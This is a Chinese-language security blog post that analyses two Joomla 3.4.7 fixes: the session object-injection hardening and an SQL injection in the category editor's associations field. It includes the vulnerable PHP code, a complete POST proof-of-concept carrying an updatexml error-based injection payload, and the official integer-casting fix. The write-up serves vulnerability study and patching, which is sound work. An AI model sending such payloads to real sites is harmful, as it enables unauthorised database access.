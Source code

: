 ```yaml
---
title: Joomla 3.4.7 修复的反序列化与SQL注入
date: 2015-10-20 08:08:11
category:
  - 网络安全
tag:
  - web安全
  - SQL注入
  - 反序列化

---
```


## 反序列化漏洞修复分析

前一阵子 Joomla 的对象注入很火，而官方3.4.6的修复仅仅是严格过滤了X_FORWARDED_FOR、注释了USER_AGENT存入SESSION那一句，见：[https://github.com/joomla/joomla-cms/commit/995db72ff4eaa544e38b4da3630b7a1ac0146264#diff-aba80b5850bf0435954b29dece250cbfL1021](https://github.com/joomla/joomla-cms/commit/995db72ff4eaa544e38b4da3630b7a1ac0146264#diff-aba80b5850bf0435954b29dece250cbfL1021)这样只是指哪补哪，治标不治本。看来官方上次的修复只是临时解决方案，这次的更新(3.4.7)算是彻底解决了此问题。

上次的对象注入，需要满足三个条件：

1. 自己实现session的处理方式，重新实现了 session 存储的read()和write()方法，但是并没有对 session 的值进行安全处理。
2. Mysql非strict mode下，使用utf8mb4字符 `\xF0\x9D\x8C\x86` 来截断。
3. PHP <= 5.6.13 session中反序列化解析的BUG。

Joomla 官方也只能解决第一个，也就是改进session的处理方式。这次更新，在 libraries/cms/version/version.php 中，将SESSION存储在内部的Registry类对象中，弃用了以前使用 $_SESSION[$namespace][$name] 的方式：

```php
$this->data = new \Joomla\Registry\Registry;
```

并且，在写SESSION的时候会先做base64_encode：

```php
public function close(){
	if ($this->_state !== 'active'){
		// @TODO :: generated error here
		return false;
	}
	$session = JFactory::getSession();
	$data    = $session->getData();

	// Before storing it, let's serialize and encode the JRegistry object
	$_SESSION['joomla'] = base64_encode(serialize($data));

	session_write_close();
	return true;
}
```

这样，$_SESSION 就只剩下了$_SESSION[‘joomla’]，而且$_SESSION[‘joomla’] 只存储了Registry的对象$data，在执行read()和write()时候，SESSION是经过base64_encode后的数据，就不会存在read()之后自动反序列化而导致对象注入了。

在反序列化的时候也不存在unserialize参数可控的情况。（可控的只是$data的成员变量）

```php
if (isset($_SESSION['joomla']) && !empty($_SESSION['joomla'])){
    $data = $_SESSION['joomla'];
    $data = base64_decode($data);
    $this->data = unserialize($data);
}
```

Joomla官方这次的解决方案比较好，不像上次那样治标不治本，这样的态度值得称赞。反观Apache对struts2 漏洞的修复…就不说了。

## SQL注入漏洞分析

### 漏洞分析

代码位于，administrator/components/com_categories/models/category.php，save()函数内：

```php
$assoc = $this->getAssoc();

if ($assoc)
{
	// Adding self to the association
	$associations = $data['associations'];

	foreach ($associations as $tag => $id)
	{
		if (empty($id))
		{
			unset($associations[$tag]);
		}
	}

	// Detecting all item menus
	$all_language = $table->language == '*';

	if ($all_language && !empty($associations))
	{
		JError::raiseNotice(403, JText::_('COM_CATEGORIES_ERROR_ALL_LANGUAGE_ASSOCIATED'));
	}

	$associations[$table->language] = $table->id;

	// Deleting old association for these items
	$db = $this->getDbo();
	$query = $db->getQuery(true)
		->delete('#__associations')
		->where($db->quoteName('context') . ' = ' . $db->quote($this->associationsContext))
		->where($db->quoteName('id') . ' IN (' . implode(',', $associations) . ')');
	$db->setQuery($query);
	$db->execute();

	if ($error = $db->getErrorMsg())
	{
		$this->setError($error);

		return false;
	}

	if (!$all_language && count($associations))
	{
		// Adding new association for these items
		$key = md5(json_encode($associations));
		$query->clear()
			->insert('#__associations');

		foreach ($associations as $id)
		{
			$query->values($id . ',' . $db->quote($this->associationsContext) . ',' . $db->quote($key));
		}

		$db->setQuery($query);
		$db->execute();

		if ($error = $db->getErrorMsg())
		{
			$this->setError($error);

			return false;
		}
	}
}
```

其中的 $associations 未经过适当处理、我们跟着流程来看看。

首先，`$assoc = $this->getAssoc();` 为 True 的时候整个逻辑才能进来，这个`getAssoc()`是什么呢？跟进getAssoc()的实现(文件的 1234 行)，发现关键是在：

```php
$assoc = JLanguageAssociations::isEnabled();
```

搜索一下，发现 JLanguageAssociations 是 Joomla 的一个多语言插件 [http://www.slideshare.net/erictiggeler/creating-a-multilingual-site-in-joomla-joomla-3-beginners-guide-eric-tiggeler](http://www.slideshare.net/erictiggeler/creating-a-multilingual-site-in-joomla-joomla-3-beginners-guide-eric-tiggeler), 这个插件是 Joomla 自带的，默认没有开启，我们在后台将他开启。

然后，继续看代码，`$associations = $data['associations'];`, $data是post过来的数据，$associations没有经过过滤就传到了：

```php
$query = $db->getQuery(true)
				->delete('#__associations')
				->where($db->quoteName('context') . ' = ' . $db->quote($this->associationsContext))
				->where($db->quoteName('id') . ' IN (' . implode(',', $associations) . ')');
```

导致SQL注入。

那 Joomla 有没有全局过滤呢？我们看看 Joomla 是如何处理POST数据的。

在 libraries/legacy/controller/form.php , save() 函数，

```php
public function save($key = null, $urlVar = null){
    ...
    $data  = $this->input->post->get('jform', array(), 'array');
    ...
    $validData = $model->validate($form, $data);
```

validate() 函数在 libraries/legacy/model/form.php 302行, 他又调用了libraries/joomla/form/form.php 的filter() 函数，具体实现就不继续了，总之这里的POST参数只是处理了 ‘ XSS and specified bad code. ‘。

最后，构造POC。在修改分类，保存的时候，修改POST数据:

```php
POST /Joomla/administrator/index.php?option=com_categories&extension=com_content&layout=edit&id=19

jform[title]=Joomla!&jform[alias]=joomla&jform[description]=&jform[parent_id]=14&jform[published]=1&jform[access]=1&jform[language]=*&jform[note]=&jform[version_note]=&jform[created_time]=2011-01-01+00:00:01&jform[created_user_id]=945&jform[modified_time]=2015-12-23+08:09:46&jform[modified_user_id]=945&jform[hits]=0&jform[id]=19&jform[metadesc]=&jform[metakey]=&jform[metadata][author]=&jform[metadata][robots]=&jform[associations][en-GB]=2) or updatexml(1,concat(0x7e,(version())),0) -- -&jform[rules][core.create][1]=&jform[rules][core.delete][1]=&jform[rules][core.edit][1]=&jform[rules][core.edit.state][1]=&jform[rules][core.edit.own][1]=&jform[rules][core.create][13]=&jform[rules][core.delete][13]=&jform[rules][core.edit][13]=&jform[rules][core.edit.state][13]=&jform[rules][core.edit.own][13]=&jform[rules][core.create][6]=&jform[rules][core.delete][6]=&jform[rules][core.edit][6]=&jform[rules][core.edit.state][6]=&jform[rules][core.edit.own][6]=&jform[rules][core.create][7]=&jform[rules][core.delete][7]=&jform[rules][core.edit][7]=&jform[rules][core.edit.state][7]=&jform[rules][core.edit.own][7]=&jform[rules][core.create][2]=&jform[rules][core.delete][2]=&jform[rules][core.edit][2]=&jform[rules][core.edit.state][2]=&jform[rules][core.edit.own][2]=&jform[rules][core.create][3]=&jform[rules][core.delete][3]=&jform[rules][core.edit][3]=&jform[rules][core.edit.state][3]=&jform[rules][core.edit.own][3]=&jform[rules][core.create][4]=&jform[rules][core.delete][4]=&jform[rules][core.edit][4]=&jform[rules][core.edit.state][4]=&jform[rules][core.edit.own][4]=&jform[rules][core.create][5]=&jform[rules][core.delete][5]=&jform[rules][core.edit][5]=&jform[rules][core.edit.state][5]=&jform[rules][core.edit.own][5]=&jform[rules][core.create][10]=0&jform[rules][core.delete][10]=&jform[rules][core.edit][10]=&jform[rules][core.edit.state][10]=&jform[rules][core.edit.own][10]=&jform[rules][core.create][12]=0&jform[rules][core.delete][12]=&jform[rules][core.edit][12]=&jform[rules][core.edit.state][12]=&jform[rules][core.edit.own][12]=&jform[rules][core.create][8]=&jform[rules][core.delete][8]=&jform[rules][core.edit][8]=&jform[rules][core.edit.state][8]=&jform[rules][core.edit.own][8]=&jform[params][category_layout]=&jform[params][image]=&jform[params][image_alt]=&jform[extension]=com_content&task=category.apply&2ebbc80d46dda42570c1b1699a58323d=1
```

jform[associations][en-GB] 这个参数就是 $associations，成功注入。

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/84aa5a9c-9196-4131-b313-8edcada92287/Untitled.png)

> 这里打一波广告，我们的Skywolf是可以轻松检测出来的，如下图
> 

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/69b58f0c-b651-43c7-b1c7-19f0d2febb3b/Untitled.png)

另外，libraries/legacy/model/admin.php 这里也存在着同样的问题。

### 修复方案

官方增加了：

```php
...
$associations = Joomla\Utilities\ArrayHelper::toInteger($associations);
...
$query->values(((int) $id) . ',' . $db->quote($this->associationsContext) . ',' . $db->quote($key));
...
```

将 $associations 中的所有值转换为int型。还有将 $id 强制转换为int。

## 参考资料

1. [http://drops.wooyun.org/papers/11330](http://drops.wooyun.org/papers/11330)
2. [http://drops.wooyun.org/papers/11371](http://drops.wooyun.org/papers/11371)
3. [http://bobao.360.cn/learning/detail/2501.html](http://bobao.360.cn/learning/detail/2501.html)
4. [https://github.com/joomla/joomla-cms/commit/2cd4ef682f0cab6ff03200b79007a25f19c6690e](https://github.com/joomla/joomla-cms/commit/2cd4ef682f0cab6ff03200b79007a25f19c6690e)
5. [https://www.joomla.org/announcements/release-news/5643-joomla-3-4-7.html](https://www.joomla.org/announcements/release-news/5643-joomla-3-4-7.html)